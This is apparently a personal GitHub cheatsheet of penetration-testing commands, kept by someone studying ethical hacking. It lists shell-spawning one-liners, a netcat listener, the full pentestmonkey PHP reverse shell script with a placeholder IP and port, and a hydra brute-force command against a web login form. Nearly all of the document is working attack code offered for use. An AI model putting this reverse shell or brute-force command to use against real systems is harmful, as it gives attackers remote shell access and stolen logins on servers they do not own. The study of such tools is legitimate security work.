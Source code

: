 <body>

# MyHackingCheatsheet
while I am studing ethical hacking I will add usefull commands and scripts
<h4>shell spawn</h4>
<ul>
    <li>python3 -c 'import pty; pty.spawn("/bin/bash")'</li>
    <li>echo os.system('/bin/bash')</li>
    <li>/bin/bash -i</li>
    <li>perl —e 'exec "/bin/bash";'</li>
    <li>perl: exec "/bin/bash";</li>
    <li>ruby: exec "/bin/bash"</li>
    <li>lua: os.execute('/bin/bash')</li>
</ul>

<h4>php reverse shell  script </h4>
<reverse>
<p>nc -lvnp 1234</p>
<pre><?php
    // php-reverse-shell - A Reverse Shell implementation in PHP
    // Copyright (C) 2007 pentestmonkey@pentestmonkey.net
    //
    // This tool may be used for legal purposes only.  Users take full responsibility
    // for any actions performed using this tool.  The author accepts no liability
    // for damage caused by this tool.  If these terms are not acceptable to you, then
    // do not use this tool.
    //
    // In all other respects the GPL version 2 applies:
    //
    // This program is free software; you can redistribute it and/or modify
    // it under the terms of the GNU General Public License version 2 as
    // published by the Free Software Foundation.
    //
    // This program is distributed in the hope that it will be useful,
    // but WITHOUT ANY WARRANTY; without even the implied warranty of
    // MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
    // GNU General Public License for more details.
    //
    // You should have received a copy of the GNU General Public License along
    // with this program; if not, write to the Free Software Foundation, Inc.,
    // 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
    //
    // This tool may be used for legal purposes only.  Users take full responsibility
    // for any actions performed using this tool.  If these terms are not acceptable to
    // you, then do not use this tool.
    //
    // You are encouraged to send comments, improvements or suggestions to
    // me at pentestmonkey@pentestmonkey.net
    //
    // Description
    // -----------
    // This script will make an outbound TCP connection to a hardcoded IP and port.
    // The recipient will be given a shell running as the current user (apache normally).
    //
    // Limitations
    // -----------
    // proc_open and stream_set_blocking require PHP version 4.3+, or 5+
    // Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
    // Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
    //
    // Usage
    // -----
    // See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.
    
    set_time_limit (0);
    $VERSION = "1.0";
    <b>$ip = '127.0.0.1';  // CHANGE THIS
    $port = 1234;       // CHANGE THIS
    </b>
    $chunk_size = 1400;
    $write_a = null;
    $error_a = null;
    $shell = 'uname -a; w; id; /bin/sh -i';
    $daemon = 0;
    $debug = 0;
    
    //
    // Daemonise ourself if possible to avoid zombies later
    //
    
    // pcntl_fork is hardly ever available, but will allow us to daemonise
    // our php process and avoid zombies.  Worth a try...
    if (function_exists('pcntl_fork')) {
        // Fork and have the parent process exit
        $pid = pcntl_fork();
        
        if ($pid == -1) {
            printit("ERROR: Can't fork");
            exit(1);
        }
        
        if ($pid) {
            exit(0);  // Parent exits
        }
    
        // Make the current process a session leader
        // Will only succeed if we forked
        if (posix_setsid() == -1) {
            printit("Error: Can't setsid()");
            exit(1);
        }
    
        $daemon = 1;
    } else {
        printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
    }
    
    // Change to a safe directory
    chdir("/");
    
    // Remove any umask we inherited
    umask(0);
    
    //
    // Do the reverse shell...
    //
    
    // Open reverse connection
    $sock = fsockopen($ip, $port, $errno, $errstr, 30);
    if (!$sock) {
        printit("$errstr ($errno)");
        exit(1);
    }
    
    // Spawn shell process
    $descriptorspec = array(
       0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
       1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
       2 => array("pipe", "w")   // stderr is a pipe that the child will write to
    );
    
    $process = proc_open($shell, $descriptorspec, $pipes);
    
    if (!is_resource($process)) {
        printit("ERROR: Can't spawn shell");
        exit(1);
    }
    
    // Set everything to non-blocking
    // Reason: Occsionally reads will block, even though stream_select tells us they won't
    stream_set_blocking($pipes[0], 0);
    stream_set_blocking($pipes[1], 0);
    stream_set_blocking($pipes[2], 0);
    stream_set_blocking($sock, 0);
    
    printit("Successfully opened reverse shell to $ip:$port");
    
    while (1) {
        // Check for end of TCP connection
        if (feof($sock)) {
            printit("ERROR: Shell connection terminated");
            break;
        }
    
        // Check for end of STDOUT
        if (feof($pipes[1])) {
            printit("ERROR: Shell process terminated");
            break;
        }
    
        // Wait until a command is end down $sock, or some
        // command output is available on STDOUT or STDERR
        $read_a = array($sock, $pipes[1], $pipes[2]);
        $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);
    
        // If we can read from the TCP socket, send
        // data to process's STDIN
        if (in_array($sock, $read_a)) {
            if ($debug) printit("SOCK READ");
            $input = fread($sock, $chunk_size);
            if ($debug) printit("SOCK: $input");
            fwrite($pipes[0], $input);
        }
    
        // If we can read from the process's STDOUT
        // send data down tcp connection
        if (in_array($pipes[1], $read_a)) {
            if ($debug) printit("STDOUT READ");
            $input = fread($pipes[1], $chunk_size);
            if ($debug) printit("STDOUT: $input");
            fwrite($sock, $input);
        }
    
        // If we can read from the process's STDERR
        // send data down tcp connection
        if (in_array($pipes[2], $read_a)) {
            if ($debug) printit("STDERR READ");
            $input = fread($pipes[2], $chunk_size);
            if ($debug) printit("STDERR: $input");
            fwrite($sock, $input);
        }
    }
    
    fclose($sock);
    fclose($pipes[0]);
    fclose($pipes[1]);
    fclose($pipes[2]);
    proc_close($process);
    
    // Like print, but does nothing if we've daemonised ourself
    // (I can't figure out how to redirect STDOUT like a proper daemon)
    function printit ($string) {
        if (!$daemon) {
            print "$string\n";
        }
    }
    
    ?> 
    </pre>
    </reverse>
    <h4>hydra</h4>
    <p>hydra -l <username> -P <wordlist> MACHINE_IP http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V</p>
</body>
